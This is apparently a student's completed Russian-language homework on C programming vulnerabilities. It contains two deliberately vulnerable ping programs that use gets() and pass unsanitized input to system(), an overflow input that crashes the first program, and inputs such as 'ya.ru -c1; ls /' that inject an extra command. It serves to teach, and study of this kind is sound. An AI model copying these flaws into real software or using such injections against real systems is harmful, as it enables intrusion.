 # Домашнее задание к занятию «Язык С и программные уязвимости»

В качестве результата пришлите ответы на вопросы в личном кабинете студента на сайте [netology.ru](https://netology.ru).

## Задание 1

**Важно**: выполняйте данную задачу на ОС Linux (Ubuntu или Kali)

### Легенда

У вас есть следующий код:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main() {
    /* выделяем буфер из 255 символов + \0 для хранения команды */
    char command[256] = {'p', 'i', 'n', 'g', ' ', '\0'};
    /* буфер для хранения хоста, который нужно пропинговать */
    char host[16];

    printf("please enter host for ping\n");
    /* получаем от пользователя имя хоста - нужно ввести в консоли, например, ya.ru и нажать Enter */
    gets(host);

    /* отладочный вывод - печатаем команду */
    printf("command: %s\n", command);
    /* отладочный вывод - печатаем хост */
    printf("host: %s\n", host);

    /* добавляем к команде хост, при этом \0 в команде заменяется на первый символ из host */
    strcat(command, host);

    /* отладочный вывод - печатаем полную команду */
    printf("full command: %s\n", command);

    /* выполняем команду */
    system(command);

    return 0;
}
```

*Важно*: строки, которые начинаются с `/*` и заканчиваются `*/` - это комментарии (пояснения к коду программы), вы можете их не печатать.

### Задача

По аналогии с лекцией установите необходимые зависимости (`apt update && apt install gcc`) и скомпилируйте данную программу (`cc main.c -o main`) - не обращайте внимание на предупреждения, если они будут.

Далее:
1\. Запустите её (`./main`), вы увидите приглашение вида:

![](pic/input.png)

2\. Введите адрес хоста, который необходимо пропинговать и убедитесь, что пинг работает:

![](pic/ping.png)

3\. Завершите работу приложения с помощью сочетания клавиш Ctrl + C

Творческая часть: попробуйте подобрать данные (по аналогии с лекцией) так, чтобы:
1. Приложение "упало" (вы получили сообщение segmentation fault или другое, свидетельствующее об ошибке)
1. Вам удалось выполнить вместо `ping` другую команду

<details>
<summary>Подсказка</summary>

Начните вводить по одному символу, пока не увидите, что команда `ping` вдруг заменилась на нужную вам (см. вывод `printf("full command: %s\n", command);`).
</details>

### Результаты

В качестве результата пришлите ответы на следующие вопросы:
1. Какое предупреждение (`Warning`) было выведено при компиляции? По желанию: проведите доп.исследование на предмет сути предупреждения (с чем оно связано, какие риски от использования одной из функций в программе и что это за функция).   

Было выведено предупреждение по использованию функции gets, т.к. функция не знает сколько ей символов хранить и будет принимать все символы которые передаст пользователь, что приведет к переполнению ввода.   

1. Ввод, приводящий к падению приложения   

Таким способом приложение падает, в код необходимо встраивать проверку введенных данных на соответствие длине символов.
```
(ivan㉿kali)-[~]
└─$ ./one
please enter host for ping
sklshfkjhaslfjhdlkafjhlkdfjhaslkfjdhsalkfjhaslkjfhdlkjfhlkajdhflkajhfdlksajfhlkasjdfhlksjdhflkasjdfhlakdjfhkladjhafkjhfkjashflkjsahflkjshflkjfhlskajfhalskdjfhlakjfhlksajfh
command: lkafjhlkdfjhaslkfjdhsalkfjhaslkjfhdlkjfhlkajdhflkajhfdlksajfhlkasjdfhlksjdhflkasjdfhlakdjfhkladjhafkjhfkjashflkjsahflkjshflkjfhlskajfhalskdjfhlakjfhlksajfh
host: sklshfkjhaslfjhdlkafjhlkdfjhaslkfjdhsalkfjhaslkjfhdlkjfhlkajdhflkajhfdlksajfhlkasjdfhlksjdhflkasjdfhlakdjfhkladjhafkjhfkjashflkjsahflkjshflkjfhlskajfhalskdjfhlakjfhlksajfh
zsh: segmentation fault  ./one
```


1. Ввод, приводящий к выполнению другой команды (не `ping`) с помощью переполнения 

Таким способом, можно вывести другую команду кроме пинга, например содержимое каталогов:   
```
└─$ ./one         
please enter host for ping
ya.ru -c1; ls /
command: ping 
host: ya.ru -c1; ls /
full command: ping ya.ru -c1; ls /
PING ya.ru (77.88.55.242) 56(84) bytes of data.
64 bytes from ya.ru (77.88.55.242): icmp_seq=1 ttl=52 time=9.21 ms

--- ya.ru ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 9.211/9.211/9.211/0.000 ms
bin   home            lib32       mnt   run   tmp      vmlinuz.old
boot  initrd.img      lib64       opt   sbin  usr
dev   initrd.img.old  lost+found  proc  srv   var
etc   lib             media       root  sys   vmlinuz
```



В качестве результата пришлите ответы на вопросы в личном кабинете студента на сайте [netology.ru](https://netology.ru).



## Задание 2

**Важно**: выполняйте данную задачу на ОС Linux (Ubuntu или Kali)

### Легенда

Программисты прислали вам якобы "исправленный" вариант программы `ping`:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main() {
    /* выделяем буфер из 24 символов для хранения команды */
    char command[24] = "ping ";
    /* буфер для хранения хоста, который нужно пропинговать */
    char host[16];

    printf("please enter host for ping\n");
    /* получаем от пользователя имя хоста */
    /* нужно ввести в консоли, например, ya.ru и нажать Enter */
    fgets(host, sizeof(host), stdin);

    /* отладочный вывод - печатаем команду */
    printf("command: %s\n", command);
    /* отладочный вывод - печатаем хост */
    printf("host: %s\n", host);

    /* добавляем к команде хост, при этом \0 в команде заменяется на первый символ из host */
    strcat(command, host);

    /* отладочный вывод - печатаем полную команду */
    printf("full command: %s\n", command);

    /* выполняем команду */
    system(command);

    return 0;
}
```

### Задача

Проведите повторный анализ и посмотрите:
1. Можно ли реализовать переполнение?
Затрудняюсь ответить, хотелось бы узнать как.   

1. Можно ли выполнить произвольную команду (если да, то как)?
да можно, как и в первом примере   
```
┌──(ivan㉿kali)-[~]
└─$ ./two
please enter host for ping
-c1 ya.ru; ls /
command: ping 
host: -c1 ya.ru; ls /
full command: ping -c1 ya.ru; ls /
PING ya.ru (5.255.255.242) 56(84) bytes of data.
64 bytes from ya.ru (5.255.255.242): icmp_seq=1 ttl=246 time=4.82 ms

--- ya.ru ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 4.818/4.818/4.818/0.000 ms
bin   home            lib32       mnt   run   tmp      vmlinuz.old
boot  initrd.img      lib64       opt   sbin  usr
dev   initrd.img.old  lost+found  proc  srv   var
etc   lib             media       root  sys   vmlinuz
```   



1. Если ответ на п.2 - да, то можно ли получить shell (т.е. запустить `sh` и `bash` и продолжить работу с интерпретатором команд в интерактивном режиме)?

думается можно, но у меня не получилось

### Результаты

В качестве результата пришлите ответы на вопросы, указанные в задании (раздел Задача).

В качестве результата пришлите ответы на вопросы в личном кабинете студента на сайте [netology.ru](https://netology.ru).